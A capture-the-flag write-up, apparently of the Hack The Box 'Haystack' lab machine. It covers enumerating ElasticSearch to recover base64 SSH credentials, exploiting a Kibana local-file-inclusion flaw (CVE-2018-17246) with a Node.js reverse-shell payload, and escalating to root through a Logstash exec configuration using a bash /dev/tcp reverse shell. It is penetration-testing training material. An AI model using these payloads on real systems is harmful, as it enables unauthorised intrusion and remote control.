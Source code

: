 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

### 🧭 Recon

#### Nmap
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.115
nmap -sC -sV -p 22,80,9200 -oA scans/nmap-scripts 10.10.10.115
```
- Open ports: 22 [SSH](SSH), 80 [HTTP](HTTP), 9200 (ElasticSearch/HTTP)

#### Port 80 - Website
- Basic HTML page with image: `needle.jpg`
- `strings -n 20 needle.jpg` → revealed base64: `bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==`
- Decoded: `la aguja en el pajar es "clave"`

#### Port 9200 - ElasticSearch
```
curl http://10.10.10.115:9200/_cat/indices?v
```
- Notable indexes: `quotes`, `bank`, `api`, `.kibana`

#### Extracting sensitive strings
```
curl -s -X GET "http://10.10.10.115:9200/quotes/_search?size=1000" -H 'Content-Type: application/json' -d'{"query": {"match_all": {}}}' | jq -c '.hits.hits[]' | grep clave
```
- Found base64 encoded user and password:
```
echo dXNlcjogc2VjdXJpdHkg | base64 -d  # user: security
echo cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 -d  # pass: spanish.is.key
```

### 🐚 Shell as security
```
ssh security@10.10.10.115
```
- Successfully authenticated.
- Grab `user.txt`

### 📦 Port Forwarding to Kibana
```
ssh -L 5601:localhost:5601 security@10.10.10.115
```
- Access Kibana via: http://localhost:5601

### 🐚 Shell as kibana

#### Kibana CVE-2018-17246
- Create payload at `/dev/shm/0xdf.js`:
```js
(function(){
  var net = require("net"),
      cp = require("child_process"),
      sh = cp.spawn("/bin/sh", []);
  var client = new net.Socket();
  client.connect(443, "10.10.14.8", function(){
      client.pipe(sh.stdin);
      sh.stdout.pipe(client);
      sh.stderr.pipe(client);
  });
  return /a/;
})();
```
- Trigger LFI execution:
```
curl 'http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../dev/shm/0xdf.js'
```
- Catch reverse shell: `nc -lnvp 443`

### 🧪 Privesc: kibana → root

#### Logstash Misconfiguration
- Logstash runs as **root**
- Kibana can read `/etc/logstash/conf.d` configs

##### Relevant config snippets:
- **input.conf**: watches `/opt/kibana/logstash_*` files
- **filter.conf**: parses `Ejecutar comando: <COMMAND>`
- **output.conf**: uses `exec` plugin to run the command

##### Trigger
```
echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" > /opt/kibana/logstash_rootme
```
- Catch shell: `nc -lnvp 443`

### 🏁 Root access
```
id
cat /root/root.txt
```

---

## ✅ Summary
- Recon revealed ElasticSearch and Kibana
- Found SSH credentials via stego in ElasticSearch
- Used Kibana LFI (CVE-2018-17246) to gain shell as kibana
- Privileged escalation through Logstash input config
- Root compromise complete

---

## 🏷 Tags
`ElasticSearch`, `Kibana`, `CVE-2018-17246`, `Logstash`, `File Monitoring`, `Reverse Shell`, `HTB`, `Privilege Escalation`, `Command Injection`, `Steganography`, `SSH`

